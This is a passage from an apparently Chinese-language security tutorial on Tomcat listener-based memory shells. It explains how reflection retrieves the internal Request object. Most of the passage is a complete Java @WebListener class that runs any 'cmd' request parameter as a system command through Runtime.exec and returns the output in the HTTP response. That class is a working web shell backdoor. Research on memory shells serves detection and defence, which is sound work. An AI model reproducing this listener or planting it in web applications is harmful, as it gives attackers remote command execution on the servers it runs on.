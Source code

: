 这里存在一个`ServletRequest`类型的`request`字段，并且通过`getServletRequest()`方法可以拿到，而`servletRequestEvent`类可以转换成`HttpServletRequest`类型接口。

`HttpServletRequest`类接口是继承`ServletRequest`接口，而`Request`类是`HttpServletRequest`接口的实现类。

因此我们可以通过反射拿到`ServletRequest`类中的`request`实例，然后经过强转类型获得`Request`对象类型
```java
package com.servlet.study;


import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;

/**
 * Created by dotast on 2022/10/25 10:35
 */
@WebListener
public class ListenerTest implements ServletRequestListener {

    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();
        try{
            String cmd = req.getParameter("cmd");
            if(cmd != null){
                Field field = req.getClass().getDeclaredField("request");
                field.setAccessible(true);
                Request request = (Request) field.get(req);
                Response response = request.getResponse();
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes,0,a);
                }
                response.getWriter().write(new String(bao.toByteArray()));
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }
}
```
